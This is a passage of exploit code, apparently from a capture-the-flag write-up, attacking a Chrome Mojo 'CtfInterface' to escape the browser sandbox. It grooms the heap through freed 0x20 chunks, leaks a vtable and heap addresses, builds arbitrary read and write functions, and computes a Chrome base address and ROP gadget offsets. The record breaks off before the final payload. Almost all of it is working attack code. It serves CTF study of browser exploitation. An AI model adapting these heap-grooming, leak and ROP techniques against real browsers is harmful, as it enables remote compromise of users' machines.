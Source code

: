 ```javascript=

        // Free all the CtfInterfaceImpl, creating lots of free chunk ( size: 0x20 )
        for (i = 0 ; i < 0x1000 ; i++) {
            A[i].ptr.reset();
        }

        // Re-allocate those 0x20 free chunks with the following allocation sequence: 
        // CtfInterfaceImpl -> size 4 double vector -> CtfInterfaceImpl -> size 4 double vector...
        for (i = 0 ; i < 0x1000 ; i++) {
            B.push(null);
            B[i] = new blink.mojom.CtfInterfacePtr();
            Mojo.bindInterface(blink.mojom.CtfInterface.name, mojo.makeRequest(B[i]).handle);
            B[i].resizeVector(0x4); // double vector with size 4 == allocate a 0x20 chunk
        }

        // Write value to B[i] for debug usage
        for (i = 0 ; i < 0x1000 ; i++) {
            await B[i].write(itof(BigInt(i)), 0);
        }

        // leak address from B[2]
        var vtable = (await B[0].read(4)).value; // vtable
        var heap1 = (await B[0].read(5)).value; // numbers_ ( vector_begin )
        var heap2 = (await B[0].read(6)).value; // numbers_ ( vector_end )

        vtable = ftoi(vtable);
        heap1 = ftoi(heap1);
        heap2 = ftoi(heap2);
        /* Check if B[2] is right behind B[0]->numbers_ */
        if ((heap1 + 0x20n == heap2) && ( (vtable & 0xfffn) == 0x4e0n)) { // pass check !
            print("OK!");
            print(hex(vtable));
            print(hex(heap1));
            print(hex(heap2));
        } else { // failed ! reload page and restart SBX exploit
            window.location.reload();
        }

        // Now B[0] can control B[2]'s data pointer by setting B[0].Write(xxx, 5)
        async function aaw(address, value) {
            await B[0].write(itof(address), 5);
            await B[2].write(itof(value), 0);
        }

        async function aar(address) {
            await B[0].write(itof(address), 5);
            var v = (await B[2].read(0)).value;
            return ftoi(v);
        }

        var chrome_base = vtable - 0xbc774e0n; // get chrome base address
        var chrome_base_rop = chrome_base + 0x33c9000n; // We found ROP gadgets in a weird way, so we need another base address for our ROP gadgets
        xchg_rax_rsp = chrome_base_rop + 0x8f0e18n; // xchg rax, rsp; add cl, byte ptr [rax - 0x77]; ret;
        pop1 = chrome_base_rop + 0x29ddebn; // pop r12; ret
        pop_rax = chrome_base_rop + 0x50404n; // pop rax; ret;
        pop_rsi = chrome_base_rop + 0xc5daen; // pop rsi; ret;
        pop_rdx = chrome_base_rop + 0x28c332n; // pop rdx; ret; 
        pop_rdi = chrome_base_rop + 0x20b45dn; // pop rdi; ret; 
        syscall_ret = chrome_base + 0x800dd77n; // syscall; ret;
        jmp_rax = chrome_base_rop + 0xbcfn; // jmp rax;
        
```